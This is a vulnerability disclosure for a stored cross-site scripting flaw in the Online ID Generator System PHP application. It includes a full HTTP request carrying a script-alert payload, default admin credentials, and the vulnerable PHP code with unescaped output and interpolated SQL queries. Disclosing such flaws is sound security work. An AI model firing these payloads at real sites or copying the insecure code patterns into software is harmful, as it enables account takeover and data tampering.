



# [Online ID Generator System-Stored XSS-SystemSettings.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** `http://localhost/id_generator/classes/SystemSettings.php?f=update_settings`

**[Vulnerability Location]:** /id_generator/classes/SystemSettings.php

**[Vulnerability Test]:**

1. View `http://localhost/id_generator/admin/?page=system_info`, Insert the XSS payload in **"System Short Name"**.

   

2. After clicking the update button, the update is successful and the XSS payload is successfully stored in the database.

   ```bash
   POST /id_generator/classes/SystemSettings.php?f=update_settings HTTP/1.1
   Host: localhost
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: */*
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   X-Requested-With: XMLHttpRequest
   Content-Type: multipart/form-data; boundary=---------------------------3313215257860267042313796715
   Content-Length: 500
   Origin: http://localhost
   Connection: close
   Referer: http://localhost/id_generator/admin/?page=system_info
   Cookie: Phpstorm-10d910bb=a6bc0397-210c-4145-96b8-e9aedf363376; PHPSESSID=ms6rnpocokf8ja6rm60paue6re
   
   -----------------------------3313215257860267042313796715
   Content-Disposition: form-data; name="name"
   
   Online ID Generator System - PHP
   -----------------------------3313215257860267042313796715
   Content-Disposition: form-data; name="short_name"
   
   <script>alert(1)</script>
   -----------------------------3313215257860267042313796715
   Content-Disposition: form-data; name="img"; filename=""
   Content-Type: application/octet-stream
   
   
   -----------------------------3313215257860267042313796715--
   
   ```

3. Visit ``http://localhost/id_generator/admin/?page=system_info`, and a pop-up window appears.

   

   

**[code analysis]:**

in /id_generator/classes/SystemSettings.php:

```php
function update_settings_info(){
    $data = "";
    foreach ($_POST as $key => $value) {
        if(!in_array($key,array("about_us","privacy_policy")))
            if(isset($_SESSION['system_info'][$key])){
                $value = str_replace("'", "&apos;", $value);
                $qry = $this->conn->query("UPDATE system_info set meta_value = '{$value}' where meta_field = '{$key}' ");
            }else{
                $qry = $this->conn->query("INSERT into system_info set meta_value = '{$value}', meta_field = '{$key}' ");
            }
    }
    if(isset($_POST['about_us'])){
        file_put_contents('../about.html',$_POST['about_us']);
    }
    if(isset($_POST['welcome_content'])){
        file_put_contents('../welcome_content.html',$_POST['welcome_content']);
    }
    if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
        $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
        $move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
        if(isset($_SESSION['system_info']['logo'])){
            $qry = $this->conn->query("UPDATE system_info set meta_value = '{$fname}' where meta_field = 'logo' ");
            if(is_file('../'.$_SESSION['system_info']['logo'])) unlink('../'.$_SESSION['system_info']['logo']);
        }else{
            $qry = $this->conn->query("INSERT into system_info set meta_value = '{$fname}',meta_field = 'logo' ");
        }
    }
    if(isset($_FILES['cover']) && $_FILES['cover']['tmp_name'] != ''){
        $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['cover']['name'];
        $move = move_uploaded_file($_FILES['cover']['tmp_name'],'../'. $fname);
        if(isset($_SESSION['system_info']['cover'])){
            $qry = $this->conn->query("UPDATE system_info set meta_value = '{$fname}' where meta_field = 'cover' ");
            if(is_file('../'.$_SESSION['system_info']['cover'])) unlink('../'.$_SESSION['system_info']['cover']);
        }else{
            $qry = $this->conn->query("INSERT into system_info set meta_value = '{$fname}',meta_field = 'cover' ");
        }
    }

    $update = $this->update_system_info();
    $flash = $this->set_flashdata('success','System Info Successfully Updated.');
    if($update && $flash){
        // var_dump($_SESSION);
        return true;
    }
}

function update_system_info(){
    $sql = "SELECT * FROM system_info";
    $qry = $this->conn->query($sql);
    while($row = $qry->fetch_assoc()){
        if(isset($_SESSION['system_info'][$row['meta_field']]))unset($_SESSION['system_info'][$row['meta_field']]);
        $_SESSION['system_info'][$row['meta_field']] = $row['meta_value'];
    }
    return true;
}
```

Finally, the `update_system_info` function is called to update the values in the `system_info` table, including the value of `short_name`.

/id_generator/admin/system_info/index.php

```php+HTML
<div class="form-group">
    <label for="short_name" class="control-label">System Short Name</label>
    <input type="text" class="form-control form-control-sm" name="short_name" id="short_name" value="<?php echo  $_settings->info('short_name') ?>">
</div>
```

And the output is made in the page.